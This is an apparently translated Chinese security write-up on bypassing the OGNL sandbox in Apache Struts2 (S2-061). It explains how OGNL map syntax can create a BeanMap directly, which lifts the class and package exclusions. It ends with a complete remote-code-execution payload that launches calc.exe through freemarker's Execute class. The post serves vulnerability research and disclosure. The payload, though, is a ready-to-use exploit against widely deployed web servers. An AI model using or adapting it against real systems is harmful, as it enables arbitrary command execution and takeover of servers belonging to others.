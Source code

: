   

##  **绕过 S2-061 沙盒限制**

 **  
**

         在使用诸如 software-forensic-kit、调试器和逐行阅读代码之类的调用图工具寻找数周后，我开始认为这不再可能了。我已经找到了许多方法来通过漏洞收集有趣的信息，或者在返回函数上导致奇怪的 ui 行为，但还没有突破沙箱。

  

        研究过的一种可能的沙箱绕过方法我认为可能有效，但我认为我的语法可能不正确。所以我请了一天假然后回来开始复习OGNL 语法 。当我注意到“地图”部分时，这让我的眼睛转向了一个完全不同的方向。 

  

![](https://gitee.com/fuli009/images/raw/master/public/20220415095206.png)

  

意识到您可以创建自己的类的地图。  

  

https://<domain>/?skillName=#@java.util.LinkedHashMap@{"foo":"value"}

  

将创建一个 LinkedHashMap 对象并用 "foo":"value" 填充它。

或者您可以创建一个 BeanMap 对象。所以之前获取 BeanMap 的方法是：

  
  

现在可以通过简单地使用来完成：

  

  * 

    
    
    #@org.apache.commons.collections.BeanMap@{}
    
    
      
    

        使用 org.apache.commons.collections.BeanMap 没有任何沙箱限制，因此通过使用特殊的 OGNL 语法直接创建它，您可以绕过所有以前的沙箱限制。



        应用该概念并将“%{”“}”删除到以前的 POC，执行 calc.exe 的新的完整 RCE 变为以下内容：

  

  *   *   *   *   *   *   *   *   * 

    
    
    (#request.map=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) +(#request.map2=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) +(#request.map3=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) +(#request.get('map3').put('excludedPackageNames',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +(#request.get('map3').put('excludedClasses',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))
